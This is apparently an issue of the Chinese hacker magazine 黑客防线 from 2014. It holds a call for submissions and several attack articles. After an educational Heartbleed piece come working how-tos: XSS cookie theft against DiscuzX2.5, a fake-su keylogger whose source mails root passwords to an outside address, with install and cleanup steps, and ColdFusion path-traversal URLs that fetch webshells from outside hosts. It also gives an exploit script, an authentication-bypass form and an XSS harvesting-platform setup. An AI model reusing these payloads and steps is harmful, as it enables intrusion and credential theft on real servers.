利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证。最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实战讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章。

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2）在稿件末尾请注明您的账户名、银行账号、以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。
- **重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。
- 4）稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 6）稿费发放办法：银行卡发放，支持境内个人银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系：投稿信箱：675122680@qq.com、hadefence@gmail.com；编辑 QQ：675122680。

| 等级稿件 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

# 黑客防线

总第 161 期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn

- 借助注册表回调实现 R0 与 R3 隐蔽通信
- OOB 越界漏洞原理及危害分析
- 编程实现关闭 LED 指示灯远程启动摄像头

### Android 版 xx 助手详细分析

- 编程恢复腾讯电脑管家 XP 专版 Inline Hook 程序分析
- image upload xss 漏洞利用分析
- Linux 渗透之记录 Root 用户密码

## 《黑客防线》5 期文章目录

总第 161 期 2014 年

#### 漏洞攻防

- OOB 越界漏洞原理及危害分析（木羊）……3
- DiscuzX2.5 跨站漏洞利用（haxsscker）……5
- Linux 渗透之记录 Root 用户密码（simeon）……9
- COLDFUSION 本地包含漏洞利用方法（simeon）……13
- XSS 渗透利用平台部署攻略（Str0ng）……17
- image upload xss 漏洞利用分析（haxsscker）……29

#### 编程解析

- 编程恢复腾讯电脑管家 XP 专版 Inline Hook 程序分析（弦相辰）……33
- 编程实现关闭 LED 指示灯远程启动摄像头（李旭昇）……39
- Windows 用户空间的内存管理（王晓松）……45
- 借助注册表回调实现 R0 与 R3 隐蔽通信（李旭昇）……49

#### 密界寻踪

- Android 版 xx 助手详细分析（莫灰灰）……53

- 2014 年第 6 期杂志特约选题征稿……62
- 2014 年征稿启示……65

## OOB 越界漏洞原理及危害分析

文/图 木羊

OOB 的全称为 Out Of Bound，通常翻译为越界漏洞，光看名字也许既陌生又人畜无害，觉得是编程考试才会遇到的奇怪名字。但前一阵子闹得满城风雨的 heartbleed 正是越界漏洞的一种表现形式，是否又会令这三个不起眼的字母别有一番风味？下面，就让我们走进 OOB，探索心脏泣血背后的故事。

要明白越界，首先应该明白什么是界。我们知道，任何程序，无非就是算法 + 数据结构，数据结构保存在内存中，而内存是一块地址连续的区域，数据结构之外自然也会有内存，但理论上使用者只能对数据结构之内的内存读和写。比如数组，数组是一种很常见的数据结构，在 C 语言中，数组是定长的，这个长度，就是数组的界，使用者只能在数组长度以内读和写。但被 C 语言坑过的同学一定不会忘记，数组是非常容易越界的，因为数组的下标从零开始，若一不小心把数组上限填成了长度，如 array[index]，其中 index 的值等于 len，导致下标 index 超过了 len-1，也就是访问了数组长度外的内存，那么这就是个越界。

再来回顾一下 heartbleed 漏洞的原理，其实非常简单。在 SSL 的数据包里有一个数据结构，包含了数据的长度（len）和内容（payload），这个数据结构会经过一次 memcpy，这个函数的最后一个参数为复制长度 len。如果 len 等于 payload 的长度，那相安无事；如果 len 大于 payload 的长度，那就会发生越界访问，泄露多出来的那段内存。由于这个 len 是一个无符号整型，能够表示的最大值为 65535，当 payload 的长度为 0 时，泄露内存达到最大值，为 65535 byte，这就是 heartbleed 漏洞最大能泄露 64K 内存的原因。（想更进一步了解细节的同学可以读这一段：OpenSSL 的 heartbleed 漏洞存在于 ssl/d1_both.c 文件中，SSLv3 记录的内容包括 type、len 和 payload，会在内存中通过 OpenSSL_malloc 函数分配 1+2+payload+padding 大小个字节，最大可以分配 1+2+65535+16 个字节，最后调用 memcpy 函数复制 payload 个字节。如果 payload 大小小于 len 就会发生泄漏。）没错，就是这么简单，就是这么个大一新生都必考的 C 语言知识点，只要放到合适的位置，就会引发满城风雨的安全危机。

说了这么多，原理应该都清楚了，不过不比划点代码总感觉有点虚。写个简单点的代码模拟一下这个过程，代码如下：

```c
void heartbleed(int pos)
{
    const int max = 3;
    int ssl[max] = {1, 2, 3};
    printf("%x", *(ssl + pos));
}


```

这是个非常简单的函数，名叫 heartbleed，它只接受一个参数，就是 pos。这个函数的作用，就是打印数组 ssl 偏移 pos 的内容，实际就是 ssl[pos]。不过要提醒的是，这个 ssl 数组长度只有 3。

按理说，使用者仅能访问数组内的信息，但由于这里没有对 pos 进行判断，因此存在越界漏洞。好，现在测试这个函数。抛开数组未初始化的问题，当 pos < max 时，函数工作正常，但当 pos == max，奇怪的东西就混进来了（图 1）：
图 1

如图 1 所示，当 pos = 3 时，打印了个 7691eb80。这是个什么呢？让我们反汇编看看：

| 地址 | 机器码 | 指令 |
|---|---|---|
| 01281870 | 55 | push ebp |
| 01281871 | 8BEC | mov ebp, esp |
| 01281873 | 83EC 14 | sub esp, 14 |
| 01281876 | A1 00302801 | mov eax, dword ptr [__security_cookie] |
| 0128187B | 33C5 | xor eax, ebp |
| 0128187D | 8945 FC | mov dword ptr [ebp-4], eax |
| 01281880 | C745 EC 03000... | mov dword ptr [ebp-14], 3 |
| 01281887 | C745 F0 01000... | mov dword ptr [ebp-10], 1 |

```asm
0128188E    C745 F4 02000... mov    dword ptr [ebp-C], 2
01281895    C745 F8 03000... mov    dword ptr [ebp-8], 3
0128189C    8B45 08          mov    eax, dword ptr [ebp+8]
0128189F    8B4C85 F0        mov    ecx, dword ptr [ebp+eax*4-10]
012818A3    51               push   ecx
012818A4    68 00212801      push   01282100            ; ASCII "%x"
012818A9    FF15 90202801    call   dword ptr [<&MSVCR110.printf>]
012818AF    83C4 08          add    esp, 8
012818B2    8B4D FC          mov    ecx, dword ptr [ebp-4]
012818B5    33CD             xor    ecx, ebp
012818B7    E8 44F7FFFF      call   security_cookie
012818BC    8BE5             mov    esp, ebp
012818BE    5D               pop    ebp
012818BF    C3               retn


```

从这段反汇编码可以看出，数组是从 ebp-10 到 ebp-8，而打印的位置则是 ebp-10+eax*4，这个 eax 保存的就是 pos 的值。当 eax=3，读取的内容为 ebp-10+C，即为 ebp-4。0x0128187D 处正好对 ebp-4 赋值，往上看一看，原来是 security_cookie 异或上 ebp 的值。

因为输入的参数 pos 是 int，是有正负值的，因此实际能够读取的范围为 ebp-10-32768*4 到 ebp-10+32768*4，共 256K 内存，除了 ebp-10 到 ebp-8 这一段，其它均为泄露。至于泄露的危害，heartbleed 漏洞相信已经给大家狠狠地上了一课。前面已经说了，数据结构外面是什么？还是数据结构。漏洞总是存在的，是否有价值的关键在于，这是保存什么的数据结构。如上面的 security_cookie 异或上 ebp 的值，如果能写，可以绕过 GS 的安全检查保护；如果保存的是银行账户和密码的验证，那就成了又一场血雨腥风。

## DiscuzX2.5 跨站漏洞利用

文/图 haxsscker

### 无法用获取的 COOKIE 登录分析

都说 DISCUZ X2.5（以下简称 DZ25）的 COOKIE 拿到了也没有办法登录，但是为什么呢？下面我们就来简单地看一下。登录一个 DZ25 的站，登录之后看一下，如图 1 所示。
图 1

在里面查找下，就会发现一个 HTTPONLY 字段，还是 AUTH，也就是登录用户，自然无法直接拿到完整 COOKIE，残缺的 COOKIE 自然也就无法登录，如图 2 所示。
图 2

### 获取完整 COOKIE 条件分析

大家知道，HTTPONLY 是专门用来防止 XSS 的，但是不要直接放弃。低版本的 AJAX 利用 TRACE 方法和 APACHE 有一个 CVE-2012-0053 漏洞，均可以获取 HTTPONLY 的 COOKIE。此时我们利用的条件就清晰了：一是低版本的 AJAX，二是 APACHE 服务器没有补 CVE-2012-0053 漏洞。

### DZ25 跨站分析

我在 DZ 官网下载了最新的 DZ25，发现唯一一个没有补的漏洞，就如点击下面这张图，当点击图片的时候，就会触发 XSS，如图 3 所示。
图 3

当然，只有 ALERT 是不够的。为了触发漏洞，必须引用外部的 JS 文件。无论哪个条件，都需要一段 AJAX 脚本。如果直接引用 JS 代码，会发现无法加载。代码如下，如图 4 所示。

```html
<script src='http://www.xxx.com/1.js'></script>


```
图 4

因为与本文关系不大，为什么不能加载这里就不分析了。接下来要怎么办呢？不要忘了，还有 IMG 标签供我们使用。

```html


```

利用这样的代码创建一个 body 里面的 script，写进去后发现太长了，被 DZ25 截断了，如图 5 所示。
图 5

那我们就来改一改，将不需要的去掉，地址换成短网址，结果如图 6 所示。
图 6

插入之后刚刚好，加载下试试，如图 7 所示。
图 7

至此，我们已经可以让 DZ 加载外部的 JS 了。具体的 JS 代码如图 8 所示。

```javascript
<script language="javascript" type="text/javascript">
makeRequest();
function setCookies(good) {
  var str = "";
  for (var i = 0; i < 819; i++) { str += "x"; }
  for (i = 0; i < 10; i++) {
    if (good) {
      var cookie = "xss" + i + "=;expires=" + new Date(+new Date() - 1).toUTCString() + "; path=/;";
    } else {
      var cookie = "xss" + i + "=" + str + ";path=/";
    }
    document.cookie = cookie;
  }
}
function makeRequest() {
  setCookies();
  function parseCookies() {
    if (xhr.readyState === 4 && xhr.status === 400) {
      var content = xhr.responseText.replace(/\r|\n/g, '').match(/<pre>(.+)<\/pre>/);
      ...
    }
  }
}


```

图 8

### COOKIE 搜集

我们来看看得到的 COOKIE，自己写的界面比较丑，如图 9 所示。
图 9

可以看到，AUTH 字段很好地被包裹了进去，发帖者用的是 JSON 格式的，还要做点处理。大家也可以用 `encodeURIComponent`，就省去了 JSON 的麻烦。我们将 `"` 全部去掉，将 `:` 换成 `=`，将 `,` 换成 `;`，最终得到如图 10 所示的结果。
图 10

## 登录

我们打开 BURP，选中 cookie，点击 edit，然后再 UPDATE 一下，如图 11 所示。
图 11

之后设置代理为 burp，burp 就会自动替换头中的 cookie 字段，效果如图 12 所示。
图 12

到此，我们的分析就暂告一段落了。  
FAQ：如此操作可以进后台吗？  
答：可以的，但要管理员先登录过后台才行，同样用 BURP 修改头即可。

## Linux 渗透之记录 Root 用户密码

文/图 simeon

在 Linux 渗透中比较容易获取服务器上网站的 Webshell。相对于目前的环境来说，Linux 服务器提权比较困难，因此如何在获取 Webshell 权限下，通过 Webshell 反弹到指定独立 IP 服务器上，通过反弹的 shell 安装程序捕获 Root 用户的密码。本文将就目前已知的记录 Root 用户密码的方法：利用 kpr-fakesu.c 程序记录 root 用户密码进行探讨。

## kpr-fakesu.c 源程序

kpr-fakesu.c 程序最新版本为 v0.9beta167，由 koper 开发，程序代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
main(int argc, char *argv[]){
    FILE *fp;
    char *user;
    char *pass;
    char filex[100];
    char clean[100];
    sprintf(filex,"/var/tmp/.mail");
    sprintf(clean,"rm -rf /var/tmp/.su;mv -f /home/webshell/.wgetrc /home/webshell/.bash_profile");
    if(argc==1) user="root";
    if(argc==2) user=argv[1];
    if(argc>2){
        if(strcmp(argv[1],"-l")==0)
            user=argv[2];
        else user=argv[1];}

    fprintf(stdout,"Password: "); pass=getpass ("");
    system("sleep 3");
    fprintf(stdout,"su: Authentication failure\nSorry.\n");

    if ((fp=fopen(filex,"w")) != NULL)
    {
        fprintf(fp, "%s:%s\n", user, pass);
        fclose(fp);
    }

    system(clean);
    system("rm -rf /var/tmp/.su; ln -s /bin/su /var/tmp/.su");
    system("uname -a >> /var/tmp/.mail; cat /var/tmp/.mail | mail admin@antian365.com");
}


```

## 修改程序

运行该程序前必须进行修改，否则即使执行了也不会有记录结果。在上面的程序代码中有三个地方需要修改，也即如下代码：

- 1. 修改密码记录的文件名称。
- 2. 修改反弹 shell 主目录。
- 3. 修改邮件发送地址。

在代码中修改 `sprintf(filex,"/var/tmp/.mail");`。在该函数中默认生成的密码记录文件是“.mail”，“.mail”可以修改为任意文件，切记修改时一定要全代码修改，即如果修改该文件应该有三处。

在代码中 `sprintf(clean,"rm -rf /var/tmp/.su;mv -f /home/webshell/.wgetrc /home/webshell/.bash_profile");`，修改“/home/webshell”为实际用户的主目录名称，该处有两个相同值需要修改。

在代码最后一行中 `system("uname -a >> /var/tmp/.mail;cat /var/tmp/.mail | mail admin@antian365.com");`，记得修改 email 地址成能够接收邮件的个人 email 地址。如果不需要，可以将该行代码删除。

## 运行键盘记录程序

- 1. 将 fakesu.c 程序复制到用户目录

如果具备 SSH 用户权限，可以通过“SSH Secure Shell”程序的文件传输功能将本地文件上传到服务器上，如图 1 所示。如果具备 Webshell 权限，也可以通过 Webshell 将 fakesu.c 上传到服务器上。如果是反弹的 DOS 命令提示符，则可以通过命令行 `wget http://www.somesite.com/fakesu.c` 下载到服务器上。
图 1 上传代码到服务器上

- 2. 执行前再一次检查代码

使用 `cat fakesu.c` 命令查看源程序代码，确认上面提及的三个地方进行了正确的修改，如图 2 所示。

```c
[webadm@localhost ~]$ cat webadm.c
#include <stdio.h>
#include <stdlib.h>
main(int argc, char *argv[]){
FILE *fp;
char *user;
char *pass;
char filex[100];
char clean[100];

sprintf(filex,"/var/tmp/.mail");
sprintf(clean,"rm -rf /var/tmp/.su;mv -f /home/webadm/.wgetrc /home/webadm/.bash_profile");
if(argc==1) user="root";
if(argc==2) user=argv[1];
if(argc>2){
if(strcmp(argv[1],"-l")==0)
    user=argv[2];
else user=argv[1];}
fprintf(stdout,"Password: ");
pass=getpass();
system("sleep 3");
fprintf(stdout,"su: Authentication failure\nSorry.\n");
if ((fp=fopen(filex,"w")) != NULL)
{
    fprintf(fp, "%s:%s\n", user, pass);
    fclose(fp);
}
system(clean);
system("rm -rf /var/tmp/.su; ln -s /bin/su /var/tmp/.su");
system("uname -a >> /var/tmp/.mail; cat /var/tmp/.mail | mail admin@antian365.com");
};


```

图 2 执行前检查源代码

- 3. 分别执行以下命令

- `chmod 777 fakesu.c`
- `gcc -o .su fakesu.c; rm -rf fakesu.c`
- `mv .su /var/tmp/.su`
- `cd ~`
- `cp .bash_profile .wgetrc`
- `cp .bash_profile .wgetrb`
- `echo "alias su=/var/tmp/.su" >> .bash_profile`
- `logout`

命令解释：

“chmod 777 fakesu.c”使程序“fakesu.c”具有最高权限。

“gcc -o .su fakesu.c; rm -rf fakesu.c”编译“fakesu.c”程序，生成“.su”，同时彻底删除“fakesu.c”程序。“rm -rf”在 Linux 中是彻底删除文件以及目录，不管目录中是否存在文件。

“cd ~”到当前 shell 的主目录。

“cp .bash_profile .wgetrb”将“.bash_profile”备份成“.wgetrb”文件。

`echo "alias su=/var/tmp/.su" >> .bash_profile` 将用户登录的“su”命令指向“/var/tmp/.su”命令。

“logout”注销当前“SSH Secure Shell”登录命令，如果是反弹的 shell，则可以用 `exit` 命令。执行命令后如图 3 所示，在编译“fakesu.c”时可能会出现警告信息：“webadm.c:19: 警告：赋值时将整数赋给指针，未作类型转换”，该警告信息不影响程序的正常运行。
图 3 执行命令

## 查看密码记录文件

根据 fakesu.c 中设置的密码记录文件，在本例中记录的文件为“/var/tmp/.pwds”。注意该文件默认为隐藏属性，可以直接通过命令查看 `cat /var/tmp/.pwds`。如图 4 所示，记录的 root 用户密码为“simeon”。
图 4 获取 root 密码记录

## 删除安装文件

当 fakesu.c 记录 root 密码成功后，需要删除安装的程序文件，否则时间久了容易引起管理员的警觉，可以使用以下命令来删除：

```bash
rm -rf /var/tmp/.su
cp .wgetrb .bash_profile
rm -rf .wgetrc
```

## COLDFUSION 本地包含漏洞利用方法

文/图 simeon

在 Adobe ColdFusion 9.0.1 及之前版本的管理控制台中存在多个目录遍历漏洞（漏洞编号 CVE-2010-2861），远程攻击者可借助向 `CFIDE/administrator/` 中的 `settings/mappings.cfm`、`logging/settings.cfm`、`datasources/index.cfm`、`j2eepackaging/editarchive.cfm` 和 `enter.cfm` 发送的 locale 参数读取任意文件。本文对这些漏洞进行测试，发现可以获取管理员密码，以及通过本地包含直接获取 Webshell。

## 搭建 ColdFusion 测试平台

本文下载的是 `coldfusion-801-win-tre.rar`，解压以后直接运行安装程序即可，设置很简单，进行相应设置即可。

## 漏洞使用方法测试

- 1. 测试是否存在漏洞

在浏览器中输入地址 `http://192.168.44.129:8500/CFIDE/administrator/enter.cfm`，其参数存在 locale 本地包含漏洞，其利用方法就是根据 locale 来构建。例如输入：

```text
http://192.168.44.129:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\ColdFusion8\logs\server.log%00en


```

如果存在漏洞会爆出 server.log 文件的详细信息，如图 1 所示。
图 1 测试是否存在漏洞

文件可以是 `application.log`、`server.log`、`eventgateway.log`，要根据实际情况进行测试。文件还可以是磁盘上的任意文件，例如读取 `boot.ini` 文件内容：

```text
http://192.168.44.129:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\boot.ini%00en


```
图 2 读取磁盘其他文件内容

- 2. 利用 URL 注入到 application.log 日志文件中

利用 `<CFHTTP METHOD=Get URL=#URL.u# PATH=#URL.p# FILE=#URL.f#>` 方法，构造一个地址，通过访问一个不存在的页面，将 URL 内容写入到日志文件中，注意编码问题，否则不成功。输入地址，如图 3 所示，会给出文件找不到错误信息：

```text
http://192.168.44.129:8500/%3CCFHTTP%20METHOD%3DGet%20URL%3D%23URL.u%23%20PATH%3D%23URL.p%23%20FILE%3D%23URL.f%23%3E.cfmI


```
图 3 提示文件未找到错误提示

这时候就会把 `<CFHTTP METHOD=Get URL=#URL.u# PATH=#URL.p# FILE=#URL.f#>` 注入到 application.log 里了，如图 4 所示。
图 4 将 URL 内容写入 application.log 日志文件中

- 3. 获取 shell

事先准备好一个 `shell.cfm`，将该文件保存为 txt 文件，例如 `http://www.antian365.com/tools/cfm.shell.txt`，然后在浏览器中输入以下地址即可在根目录获取 `shell.cfm`，如图 5 所示，获取的 webshell 为 system 权限。

```text
http://192.168.44.129:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\ColdFusion8\logs\application.log%00en&u=http://192.168.44.129:8500/1.txt&p=C:\ColdFusion8\wwwroot&f=shell.cfm


```
图 5 获取 webshell

- 4. 获取管理密码

`password.properties` 文件一般位于 `C:\ColdFusion8\lib\` 文件夹下，只要读取该文件的信息，即可获取加密的密码，如图 6 所示。

`http://192.168.44.129:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en`
图 6 获取 ColdFusion 管理密码

## LFI to Shell in ColdFusion 6-10 利用方法分析

LFI 获取 ColdFusion 6-10 版本 Shell 方法（LFI to Shell in ColdFusion 6-10）的原文见  
`http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/`，其方法与本文方法有些类似，只是其采用了 base64 编码。

```cfm
<cfhttp method='get'
url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#'
path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'>
```

使用 cfm 的 CFHTTP 标签执行一个 HTTP 请求来取得 192.168.1.97:8000 WEB 服务器上的 `cmd.cfml` 文件，`ToString(ToBinary` 是为了做 BASE64 编码，绕过一些字符的限制，比如“/”。下面说说此法的缺点。

- 1. 不是通杀的方法，如果对方禁止对外的 HTTP 访问，此法不行。
- 2. 如果安装的时候是集成到 IIS 模式的，CF 程序目录放到其他盘符的话，是没法使用“../”跨目录的。

## 其他可供利用漏洞分析

- 1. 读取 `password.properties` 文件内容

exploit-db 网站公布的利用方法，POC 下载地址：`http://www.exploit-db.com/exploits/14641/`，其代码如下，其主要功能是读取管理员密码。用法为：

```bash
python 14641.py ip port ../../../../../../../../lib/password.properties
python 14641.py 192.168.44.129 8500 ../../../../../../../../lib/password.properties
```

```python
import sys
import socket
import re
# in case some directories are blocked
filenames = ("/CFIDE/wizards/common/_logintowizard.cfm", "/CFIDE/administrator/archives/index.cfm", "/cfide/install.cfm", "/CFIDE/administrator/entman/index.cfm", "/CFIDE/administrator/enter.cfm")
post = """POST %s HTTP/1.1
Host: %s
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: %d
locale=%%00%s%%00a"""
def main():
if len(sys.argv) != 4:
print "usage: %s <host> <port> <file_path>" % sys.argv[0]
print "example: %s localhost 80 ../../../../../../../../lib/password.properties" % sys.argv[0]
print "if successful, the file will be printed"
return

host = sys.argv[1]
port = sys.argv[2]
path = sys.argv[3]

for f in filenames:
print "------------------------------"
print "trying", f

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

```python
s.connect((host, int(port)))
s.send(post % (f, host, len(path) + 14, path))

buf = ""
while 1:
    buf_s = s.recv(1024)
    if len(buf_s) == 0:
        break
    buf += buf_s

m = re.search('<title>(.*)</title>', buf, re.S)
if m != None:
    title = m.groups(0)[0]
    print "title from server in %s:" % f
    print "------------------------------"
    print m.groups(0)[0]
    print "------------------------------"

if __name__ == '__main__':
    main()
```

- （2）Adobe ColdFusion 9 管理员绕过漏洞  
将以下代码保存为 test.html，加入 hostname 后，直接提交可以绕过 Adobe ColdFusion 9 认证，直接登录后台系统。

```html
<form
action="http://[HOSTNAME]/CFIDE/adminapi/administrator.cfm?method=login"
method="post">
    <input type="hidden" name="adminpassword" value="">
    <input type="hidden" name="rdsPasswordAllowed" value="1">
    <input type="submit">
</form>


```

## XSS 渗透利用平台部署攻略

文/图 F4ckTeam Str0ng

搭建 XSS 渗透利用平台，一如我等这样的穷人，使用 SAE 是最明智的选择。但是有 SAE 没有备案的域名，就别折腾绑定域名了，第一是很卡，第二是壹豆消耗会很大。使用空间搭建的，会被空间商所限制，所以遇到些问题还是自己解决吧。xsser.me 的源码我在空间里至今未成功，因为需要 URL 重定向的支持，若有用空间搭建成功的，我们可以抛砖引玉相互交流。不多说了，希望大家能为本文提出意见或者建议，也可以分享你搭建 XSS 平台经历或经验，共同学习。

## 空间类

我使用的程序为 xssing @Yaseng，空间环境是 2k3 + IIS 6.0，域名为 www.webweb.com，不是广告，只是纯粹的搭建测试用。首先我们测试 xssing，源码地址为：http://code.google.com/p/xssing/，作者在一些常见问题中已经写得很清楚了，如图 1 所示。
图 1

首先修改 `\xssing1.3\apps\index\action\User.Action.php` 中如下的内容，如图 2 所示。
图 2

Admin 这个参数可以自定义，也可以使用默认值。编辑 `\xssing1.3\config\mysql.php`，填入对应数据库信息，如图 3 所示。
图 3

编辑 `\xssing1.3\uauc\define.php`，修改为当前 URL 地址，如图 4 所示。至此，文件修改部分结束，之后将 `\xssing1.3\xing.sql` 导入数据库，如图 5 所示。
图 4
图 5

对应库名导入库后，上传我们之前修改好的 xssing（FTP）。架设成功后，到刚刚修改的注册地址获取注册码注册，形如 `http://你的地址//?m=user&a=get_incode&token=你改的参数&n=10`，如图 6 和图 7 所示。
图 6
图 7

测试成功，如图 8 和图 9 所示。
图 8
图 9

获取到的数据如图 10 所示。
图 10

## VPS 类

### 1）Apache 环境 xsser.me 搭建

首先搭建 PHP 环境，本文使用的是 wamp2.2，可以很方便地搭建起 PHP 环境。下载 xsser.me 的源码，解压缩到相应的目录。

这里我只拷贝了 xssplatform 目录，并重命名为了 xss。使用 phpMyAdmin 在 MySQL 中新建一个数据库，将该目录下的 xssplatform.sql 文件导入数据库，如图 11 和图 12 所示。
图 11
图 12

点击执行后，可以看到已经创建好的表，如图 13 所示。
图 13

执行下面的 SQL 语句，改为自己的域名。本文所用的是本地主机搭建的环境，所以直接使用了 IP 地址 192.168.0.104，如图 14 和图 15 所示，并执行 `UPDATE oc_module SET code=REPLACE(code,'http://xsser.me','http://192.168.0.104/xss')`。
```sql
UPDATE oc_module SET code=REPLACE(code,'http://xsser.me','http://192.168.0.104/xss');
```

图 14

✅ 影响了 3 行。（查询花费 0.0011 秒）

```sql
UPDATE oc_module SET code = REPLACE(code, 'http://xser.me', 'http://192.168.0.104/xss');


```

图 15

修改网站目录下的 config.php 文件，根据具体情况和注释，修改以下几项，如图 16 所示。
图 16

访问网站进行测试，然后注册一个新的帐号，如图 17 所示。
图 17

本文提交注册的是旧版本，点击提交后会没反应，查看源码，发现 `type="button"` 要改为 `submit` 才能提交。没办法，去改吧，如图 18 所示。
图 18

找到如下所示的目录可以发现这个文件，直接修改 `type` 为 `submit`，再刷新页面就可以注册了。但是这个文件是一个临时生成的文件，重新生成该文件时可能还会碰到这样的问题，所以还要修改源文件中的 `type`。临时文件的目录如图 19 所示，源文件目录如图 20 所示。
图 19　图 20

要修改的部分，如图 21 所示。

```html
<td colspan="2"><input id="btnRegister" type="submit" onclick="Register()" value="提交注册" />


```

图 21

再次尝试注册即可成功，如图 22 所示。
图 22

创建一个项目测试，看看平台是否搭建好了，如图 23 和图 24。
图 23

## 配置代码
图 24　图 25

我们在使用地址 `http://192.168.0.104/xss/WaBSHV?1377485430` 进行 XSS 的时候，还需要做一件事情，就是 URL 重写。只需要在网站目录下创建一个 `.htaccess` 文件即可，如图 25 所示。文件内容如下：

```apache
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteRule ^([0-9a-zA-Z]{6})$ index.php?do=code&urlKey=$1
RewriteRule ^do/auth/(\w+?)/domain/([\w\.]+?)?$ index.php?do=do&auth=$1&domain=$3
RewriteRule ^register/(.*?)$ index.php?do=register&key=$1
RewriteRule ^register-validate/(.*?)$ index.php?do=register&act=validate&key=$1
RewriteRule ^login$ index.php?do=login
</IfModule>


```

再创建一个 html 文件，浏览器访问这个 html 文件，测试一下，如图 26、图 27 和图 28 所示。
图 26

| 项目名称 | 项目描述 | 内容数 | 创建时间 | 操作 |
|---|---|---|---|---|
| IJustTest | i_iT_T_0_0@_@ | 1 | 2013-… | 删除 |

图 27
图 28

测试成功。接下来需要给自己点权限，以便发放邀请码。修改 user 表里相应用户 adminLevel 项的值为 `1`，phpMyAdmin 里直接双击修改即可。或者执行 SQL 语句 `UPDATE xss.oc_user SET adminLevel = '1' WHERE oc_user.id =1 LIMIT 1;`，如图 29 所示。
图 29

修改 config.php 文件，将注册配置为只允许邀请注册，重新登录，如图 30 所示。

```php
/* 注册配置 */
$config['register'] = 'invite';


```

图 30

访问 `http://192.168.0.104/xss/index.php?do=user&act=invite` 页面，发放邀请码，如图 31 所示。
图 31

这个页面的临时文件与源文件在下面这两个文件中，如图 32 和图 33 所示。
图 32
图 33

此时随意乱填邀请码会提示邀请码不正确或已作废，使用正确的邀请码注册一个，如图 34 所示，提示注册成功。
图 34

### 2）IIS 环境搭建

此处主要关注搭建过程遇到的问题和解决方法。

用命令解压 xssplatform.zip，修改 config.php 里面的数据库连接字段，包括用户名、密码、数据库名、访问 URL 起始和伪静态的设置。

web 根目录下有一个 xssplatform.sql，导入库，然后导入 data.sql（注意先后顺序）。

```sql
UPDATE oc_module SET code=REPLACE(code,'http://xsser.me','http://yourdomain/xsser');
```

初期注册用户时点击提交注册会无反应，解决方法为：找到 `themes\default\templates` 目录下的 register.html，修改第 53 行代码：

```html
<input id="btnRegister" type="button" onclick="Register()" value="提交注册" />

改为

<input id="btnRegister" type="submit" ...>
```

`onclick="Register()" value="提交注册" />`。接下来遇到的难题就是短链接 404，找了很多 Rewrite，在 IIS 测试都没成功，还好终于解决了。形如 `http://xxxxx.xxx/Ft3Su0?1371909034` 这样的链接会出现 404 错误，形如 `http://xxxxx.xxx/index.php?do=code&urlKey=Ft3Su0` 则正常。解决方法如下：

下载 ISAPI Rewrite3 full 版本，先安装 `ISAPI_Rewrite3_0073.msi`，安装完成后，打开 `C:\Program Files\Helicon\ISAPI_Rewrite3`（默认安装），把 RAR 包里面的 `ISAPI_Rewrite.dll` 和包里绿色版文件夹的 `ISAPI_RewriteSnapin.dll` 复制覆盖到程序目录（先备份）。还有，记得给 ISAPI_Rewrite3 软件安装目录 network service 的读权限，RAR 包里有安装说明。

操作完之后打开 Helicon Manager.exe，找到自己的网站，右侧有 edit 按钮，把下面的规则复制上去，之后重启 IIS 即可。

